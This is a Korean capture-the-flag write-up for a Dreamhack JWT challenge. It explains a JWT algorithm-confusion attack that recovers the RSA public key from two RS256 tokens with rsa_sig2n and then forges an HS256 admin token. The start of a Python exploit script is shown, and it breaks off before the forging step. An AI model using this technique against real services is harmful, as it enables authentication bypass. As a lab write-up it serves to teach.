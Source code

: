 <br>

이번 JWT의 문제에서는 RS256 알고리즘으로 JWT 토큰을 생성하는데 검증할 때는 HS256과 ES256도 함께 검증에 포함해서 검증을 불필요하게 하고 있다. 또한 HS256 알고리즘은 생성할 때와 검증할 때 모두 비밀키를 사용하고 있는데 공개키를 사용해서 검증하고 있으므로 RS256 알고리즘을 사용하는 2개의 JWT를 이용해서 `rsa_sig2n` 을 사용해서 공개키를 추출할 수 있다. 따라서 이 공개키를 이용해 알고리즘 헤더에 HS256과 페이로드의 username을 admin으로 수정해주면 flag를 획득할 수 있을 것이다.

<br>

이번 JWT 문제는 우회 방법을 계속 찾아보고 시도해봤는데 도저히 안풀려서 dreamhack 풀이를 보고 풀었다. JWT 우회 방법 중에 HS256 알고리즘을 공개키로 검증하고 RS256 알고리즘으로 토큰을 2개 생성할 수 있을 때 rsa_sig2n을 사용하는 걸 기억해야겠다.

```python
#!/usr/bin/env python3
import base64
import hashlib
import hmac
import json
import re
import subprocess
import sys
import time
import traceback
import jwt
import requests
from calendar import timegm
from datetime import datetime

if len(sys.argv) == 3:
    print('************************************')
    print('*              REMOTE              *')
    print('************************************')
    HOST = f'{sys.argv[1]}:{sys.argv[2]}'
else:
    print('************************************')
    print('*               LOCAL              *')
    print('************************************')
    HOST = 'localhost:7000'

BASE_URL = f'http://{HOST}'

def getJWTToken():
    s = requests.Session()
    body = {
        'username': 'guest',
        'password': 'guest'
    }
    s.post(f'{BASE_URL}/login', data=body)
    return s.cookies['token']

# sig2n can fail to get the proper public key. so we loop until
# entire processes are successful.
while True:
    try:
        # get two different JWT tokens
        print('getting two different JWT tokens...')
        tokens = []
        for _ in range(2):
            tokens.append(getJWTToken())
            time.sleep(1) # this is to get different tokens(both `iat` and
                            # `exp` header have different value by time).
        print('token[0]..', tokens[0])
        print('token[1]..', tokens[1])


        # get RSA public key from the two tokens by running sig2n
```